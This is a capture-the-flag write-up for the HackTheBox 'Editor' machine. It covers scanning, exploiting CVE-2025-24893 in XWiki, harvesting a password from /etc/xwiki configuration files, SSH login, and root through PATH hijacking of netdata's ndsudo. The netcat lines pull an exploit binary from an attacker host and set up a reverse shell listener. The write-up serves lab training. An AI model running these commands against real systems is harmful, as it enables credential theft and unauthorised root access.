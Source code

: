 # Editor - HackTheBox 

## 1.1 Nmap scan

Performed to identify open ports, services, versions, and operating system:

```bash
nmap -A -T4 10.10.11.80 -oN portscan.txt
```
## 1.2 Nuclei scan for vulnerabilities

Performed to identify known vulnerabilities in the machine's HTTP service:

```bash
nuclei -u http://wiki.editor.htb -o nuclei.txt
```

* The scan identified the vulnerability CVE-2025-24893 (details looked up on Exploit-DB)

---

## 2. Exploitation

### 2.1 Exploit adjustment

Based on the exploit found at [Exploit-DB #52136](https://www.exploit-db.com/exploits/52136), it was necessary to modify the HTTPS address to work correctly against the target.

### 2.2 Interactive shell access

Python interactive shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 3. Enumeration

### 3.1 User directories

Listing the `/home` directory to discover system users:

```bash
ls /home
```

Output:

```
oliver
```

### 3.2 Searching for passwords in configuration files

Searched for possible passwords inside the `/etc/xwiki` directory:

```bash
grep -iR "pass" /etc/xwiki/*
```

Found the password:

```
theEd1t0rTeam99
```

---

## 4. SSH access

With the discovered user and obtained password, it was possible to connect via SSH:

```bash
ssh -4 oliver@editor.htb
```

* `-4`: force IPv4 connection
* User: `oliver`
* Password: `theEd1t0rTeam99`

## 5. Privilege Escalation

### 5.1 Compiling the exploit

On your local machine, compile the exploit statically to avoid library dependencies on the target:

```bash
x86_64-linux-gnu-gcc -o nvme exploit.c -static
```

### 5.2 Transfer the exploit to the target

Use `nc` (netcat) to send the compiled binary to the target machine:

On your **local machine** (sending the file):

```bash
nc -lvnp 4444 < nvme
```

On the **target machine** (receiving the file):

```bash
nc 10.10.14.8 4444 > nvme
chmod +x nvme
```

### 5.3 Execute the exploit with appropriate permissions

Run the exploit by adding the current directory to the `PATH` and using `ndsudo` to escalate privileges:

```bash
PATH=$(pwd):$PATH /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

### 5.4 Listen on the reverse shell port

Meanwhile, on your **local machine**, listen for a reverse shell on port `9001` (or the port specified by the exploit):

```bash
nc -lvnp 9001
```
And now you have the root flag.

